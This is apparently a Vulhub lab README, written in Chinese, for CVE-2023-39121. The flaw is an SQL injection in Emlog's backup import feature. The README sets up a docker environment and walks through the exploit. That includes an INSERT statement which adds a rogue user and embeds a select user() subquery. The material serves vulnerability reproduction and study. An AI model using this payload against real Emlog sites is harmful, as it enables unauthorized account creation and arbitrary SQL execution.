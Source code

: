 # Emlog data.php 后台SQL注入漏洞（CVE-2023-39121）

Emlog 是一款开源博客系统。该漏洞存在于数据备份/恢复功能中，由于输入验证不充分，攻击者可通过特制的备份文件执行任意 SQL 语句。

参考链接：

- <https://github.com/safe-b/CVE/issues/1#issue-1817133689>
- <https://www.emlog.net/docs/install/install_docker/>
- <https://hub.docker.com/layers/emlog/emlog/pro-latest-php7.4-apache/images/sha256-55bcc4861e1cc99ad79505be05ca3f3e5d9bb5dd16b8f2edc6ae62f7315cb8df>

## 漏洞环境

执行如下命令启动一个emlog2.1.9版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip/install.php`会跳转到安装页面。注册一个用户名、密码，然后安装。完成之后，登录后台管理界面：

## 漏洞利用

1. 点击系统->数据->开始备份

   ![image-20250620130109114](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/1.png)

2. 发现下载了一个sql文件

   ![image-20250620130800739](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/2.png)

3. 打开sql文件，添加一条sql语句（插入一个用户为例）

   ```
   INSERT INTO emlog_user VALUES('110','','$P$BnTaZnToynOoAVP6T/MiTsZc9ZAQNg.',(select user()),'writer','n','','123@qq.com','','','0','1687261845','1687261845');
   ```
   ![image-20250620131017485](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/3.png)

4. 将刚才修改的sql文件导入

   ![image-20250620131122459](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/4.png)

5. 发现新增了一个用户，说明sql注入成功

   ![image-20250620131307794](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/5.png)

